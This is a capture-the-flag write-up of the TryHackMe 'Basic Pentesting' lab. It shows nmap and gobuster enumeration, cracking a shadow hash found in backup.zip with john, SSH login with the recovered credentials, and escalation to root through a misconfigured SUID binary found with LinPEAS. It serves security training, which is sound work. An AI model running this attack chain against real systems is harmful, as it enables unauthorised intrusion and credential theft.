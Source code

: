 # Basic Pentesting 💻

**Platform**: [TryHackMe](https://tryhackme.com)  
**Room Link**: https://tryhackme.com/room/basicpentestingjt  
**Difficulty**: Easy  
**Tags**: `#enum`, `#web`, `#ssh`, `#priv-esc`, `#linux`, `#suid`  
**Date Completed**: March 2025  
**Author**: [CyDieLia](https://github.com/CediLia)

---

## 📌 Room Overview

- **Goal**: Enumerate, gain access to a vulnerable Linux system, escalate privileges to root.
- **Skills Practiced**: Service enumeration, SSH brute force, Linux privilege escalation, SUID abuse.
- **Tools Used**:  
  `nmap`, `gobuster`, `hydra`, `john`, `ssh`, `linpeas`, `strings`

---

## 🧭 Target Info

| Field       | Value               |
|-------------|---------------------|
| Target IP   | `10.10.10.27`        |
| OS          | Linux               |
| Services    | 22 (SSH), 80 (HTTP) |
| Notes       | Web server leads to credential discovery; privilege escalation is SUID-based

---

## 📚 Summary – Attack Flow

| 🧩 Phase           | 💡 Technique Used                                                   |
|--------------------|---------------------------------------------------------------------|
| 🔍 Enumeration     | `nmap`, `gobuster`, manual web recon                                 |
| 🔑 Initial Access  | SSH login via cracked credentials from `backup.zip`                 |
| ⚙️ Privilege Esc.  | Exploited SUID binary `/usr/bin/secret` to get a root shell         |
| 🛠️ Tools Used      | `hydra`, `john`, `linpeas`, `ssh`, `strings`                         |

> 🧠 **Key Takeaway**: A `.zip` file and a quiet SUID binary were all it took — *this room is a perfect reminder to enumerate smarter, not harder.*

---

## 🔍 Enumeration

### 🔹 Nmap Scan
``nmap -sC -sV -oN basicpentesting-nmap.txt 10.10.10.27``

Discovered:
🔸22/tcp — OpenSSH 7.6p1

🔸80/tcp — Apache httpd 2.4.29

🔹 Web Recon

Visited http://10.10.10.27 in browser → default Apache page.

### Used gobuster for directory fuzzing:
``gobuster dir -u http://10.10.10.27 -w /usr/share/wordlists/dirb/common.txt -x php,txt,zip```

## Results:
🔸/development/
🔸/backup.zip

## 🔑 Initial Access
🔸 Downloaded /backup.zip

Extracted and found a password-protected shadow file.
🔸 Cracked Hash with John
``john --wordlist=/usr/share/wordlists/rockyou.txt shadow.hash``

### Recovered credentials:
🔸user: user
🔸pass: qwertyuiop
🔸 Gained SSH Access

```ssh user@10.10.10.27```


# ⚙️ Privilege Escalation
🔸 Local Enumeration with LinPEAS

## Transferred linpeas.sh using scp:
``scp linpeas.sh user@10.10.10.27:/tmp``

### Executed:
``chmod +x linpeas.sh && ./linpeas.sh``

### Findings:
🔸SUID binary found: /usr/bin/secret
🔸 Manual Inspection
``strings /usr/bin/secret``

Discovered the binary calls /bin/bash — classic misconfigured SUID.
🔸 Root Access Gained
``/usr/bin/secret
whoami
# root``

---

## 🧠 Lessons Learned

| 💭 Concept             | 💡 What I Took Away                                                         |
|------------------------|---------------------------------------------------------------------------|
| File Looting 🗂️        | `.zip` archives might hide critical credentials or clues                  |
| SUID Exploitation ⚙️   | Always analyze SUID binaries with `strings`, `ltrace`, or manual execution |
| Wordlist Power 💥      | `rockyou.txt` cracks weak hashes like magic                               |
| Full Chain Practice ⛓️ | End-to-end flow: Web ➜ Creds ➜ Shell ➜ Root                               |
| Writeups Matter ✍️     | Documenting each step locked the entire attack chain in memory            |

> 📓 _“Backups are for recovery… or root access.”_ — cyber goblin

---

## 📎 References

- [TryHackMe Room – Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)
- [GTFOBins – SUID Binaries](https://gtfobins.github.io/)
- [HackTricks – Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [John the Ripper](https://www.openwall.com/john/)
- [Linux SUID Exploits](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)

<details>
  <summary>💬 Extra Notes / Struggles Faced</summary>

- Originally overlooked `/development/` because I didn't filter `.zip` in Gobuster.
- Forgot to try `strings` until after running LinPEAS — next time: check SUIDs manually too.
- This room reinforced the importance of attacking the **entire chain**, not just the first shell.

</details>

